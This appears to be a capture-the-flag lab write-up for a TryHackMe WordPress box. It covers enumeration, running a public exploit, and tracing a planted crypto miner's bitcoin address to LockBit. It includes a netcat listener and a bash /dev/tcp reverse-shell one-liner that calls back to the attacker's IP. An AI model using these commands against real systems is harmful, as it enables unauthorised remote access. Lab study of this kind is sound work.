

## *Enumeration*
>	- Using `gobuster -u https://10.10.141.118/ -k -w /usr/share/wordlists/dirb/common.txt` to get hidden directories.
>		- `-k` to not check for certificates.
>	- 
>	- The website uses WordPress, use `wpscan --url https://bricks.thm/ --disable-tls-checks` to check for vulnerabilities. 
>	- The version is found `1.9.5`, searching online for a vulnerability for WordPress version 1.9.5.
## *Gaining Access*
>	- Cloning the repository and installing the requirements.
>	- Using `python exploit.py -u https://bricks.thm/` to run the exploit.
>	- Run a listener using `nc -lvnp 4444` and upgrade the shell from the target machine using `bash -c 'exec bash -i &>/dev/tcp/10.9.224.110/4444 <&1'`.
>	- The hidden file can be found.
## *Enumeration v2*
>	- Checking running processes using `systemctl list-units --type=service --state=running`.
>	- The `ubuntu.service` that got a description of `TRYHACK3M` is obviously suspicious.
>	- Checking the service using `systemctl cat ubuntu.service`.
>	- The service is executing from the `/lib/NetworkManager/` directory. Checking the directory.
>	- The file `inet.conf` has read only permissions, `cat`ing the file.
>	- The miner file is found, checking the ID in Cyber Chef.
>	- Since bitcoin address are 26 and 62 alphanumeric characters. The decoded address `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qabc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa` is more than that.
>	- Examining the address, it seems to be duplicated.
>	- Going to a bitcoin trading website to check the address.![[blockchain-add.png]]
>	- Checking the transactions with low Privacy, the last one shows the sender and receiver.
>	- Checking the sender's address with a google search.
>	- The LockBit Ransomware Group is the affiliated group.